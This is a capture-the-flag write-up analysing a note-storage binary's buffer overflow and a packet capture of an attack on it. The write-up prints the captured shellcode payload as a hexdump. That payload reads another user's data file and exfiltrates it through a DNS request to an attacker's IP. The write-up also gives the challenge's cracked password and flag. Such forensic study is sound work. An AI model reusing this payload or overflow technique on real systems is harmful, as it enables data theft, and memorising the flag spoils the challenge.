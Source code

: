 # HV20.24 Santa's Secure Data Storage

For the final challenge, we get access to a binary (`data_storage`, 64 bit ELF file) and a PCAP file which shows some network traffic. Our goal is to analyze the provided files and find out if / how the application has been compromised. Moreover, we know that all users of the application use passwords from the infamous wordlist `rockyou.txt`.

Firstly, I started playing with the ELF file. The application can be used to store encrypted notes. Authentication is done using username and password. If the user does not exist during the authentication, it is created automatically. All files (user data and encrypted notes) are stored inside the `/data` folder. The filenames have the following pattern:

- `data/<user>_pwd.txt` - Hashed password for the user
- `data/<user>_data.txt` - Encrypted note

Moreover, we can see that there is a huge buffer overflow vulnerability in the provided application. After authentication, the user can enter a number from `0` to `3` to choose an action:

```bash
➜  24 git:(main) ✗ ./data_storage
welcome to santa's secure data storage!
please login with existing credentials or enter new username ...
username> manuelz120
creating user 'manuelz120' ...
please set your password (max-length: 19)
password> hackvent_rulez
welcome manuelz120!
[0] show data
[1] enter data
[2] delete data
[3] quit
choice> 3
good bye!
```

However, when reading the input the application takes 1000 byte from _stdin_ using `fgets` and passes them to a buffer with a size of just 10 byte. This vulnerability can most likely be exploited to achieve remote code execution and leak data from other users.

![Buffer overflow](./overflow.png)

Afterwards, I started taking a look at the communication from the [PCAP file](./attack.pcapng). By analyzing the TCP packets, we can see how user `evil0r` (password `lovebug1`) interacted with the application. At a first glance, there does not seem to be anything suspicious, as he does not interact with the notes and immediately quits after connecting. However, if we take a closer look at the quit command, we can see that it contains way more data than just the command (`3`):

```
00000000: 3320 4141 4141 4141 4141 4141 4141 4141  3 AAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 1041 4000 0000 0000 6874 7874 0048  AA.A@.....htxt.H
00000050: c2bf 7461 5f64 6174 612e 5748 c2bf 6461  ..ta_data.WH..da
00000060: 7461 2f73 616e 5748 c289 c3a7 4831 c3b6  ta/sanWH....H1..
00000070: 4831 c392 c2b8 0200 0000 0f05 48c2 89c3  H1..........H...
00000080: 8748 c2ba 0000 0100 0100 0000 526a 006a  .H..........Rj.j
00000090: 006a 006a 0048 c289 c3a6 48c2 ba01 0000  .j.j.H....H.....
000000a0: 0000 0000 2052 48c2 ba00 0000 1337 0100  .... RH......7..
000000b0: 0052 c2ba 2000 0000 c2b8 0000 0000 0f05  .R.. ...........
000000c0: 4831 c389 c281 340e c3af c2be c2ad c39e  H1....4.........
000000d0: 48c2 83c3 8104 48c2 83c3 b920 75c3 afc2  H.....H.... u...
000000e0: bf02 0000 00c2 be02 0000 0048 31c3 92c2  ...........H1...
000000f0: b829 0000 000f 0548 c289 c387 48c2 89c3  .).....H....H...
00000100: a648 c283 c386 03c2 ba32 0000 0041 c2ba  .H.......2...A..
00000110: 0000 0000 6a00 49c2 b802 0000 35c3 80c2  ....j.I.....5...
00000120: a800 2a41 5049 c289 c3a0 41c2 b910 0000  ..*API....A.....
00000130: 00c2 b82c 0000 000f 05c2 bf00 0000 00c2  ...,............
00000140: b83c 0000 000f 050a                      .<......
```

If we take a closer look at the part which follows the sequence of `A`s, we can see that it contains some shell code, so this whole request is exploiting the buffer overflow vulnerability we discussed before. After disassembling the shellcode, we can see that the exploit reads the data file of the user santa (`data/santa_data.txt`), encrypts it by xoring the content with `0xdeadbeef` and sends it to `192.168.0.42` (`evil0r`'s IP) via a handcrafted DNS request. Thankfully, we also have the data from this DNS request, as it's still shown in the PCAP:

Bytes from DNS request: `0xe5, 0xaf, 0xe5, 0x9d, 0x31, 0xac, 0xa3, 0xca, 0x21, 0x1e, 0xc3, 0x79, 0xa6, 0x73, 0x23, 0x5e, 0xda, 0xb6, 0xa0, 0x8d, 0x2e, 0xd3, 0xb7, 0xb6, 0x6b, 0x55, 0x85, 0x7e, 0xc8, 0x34, 0x22, 0x7a`

Now we can undo the XOR encryption by xoring these bytes with `0xdeadbeef` (keep in mind the reversed byte order) and obtain the encrypted data file for the user santa:

```bash
➜  24 git:(main) ✗ xxd data/santa_data.txt
00000000: 0a11 4843 de12 0e14 cea0 6ea7 49cd 8e80  ..HC......n.I...
00000010: 3508 0d53 c16d 1a68 84eb 28a0 278a 8fa4  5..S.m.h..(.'...
```

Now, we can simply store this data on our local machine and try to decrypt it using all passwords from `rockyou.txt`. I wrote a small [wrapper-script](./brute-force-decrypt.py) using [pwntools](https://github.com/arthaud/python3-pwntools) to automate this task. After ~ 1 hour it finally managed to decrypt the leaked file (password was: `xmasrocks`).

**Flag:** HV20{0h_n0es_fl4g_g0t_l34k3d!1}
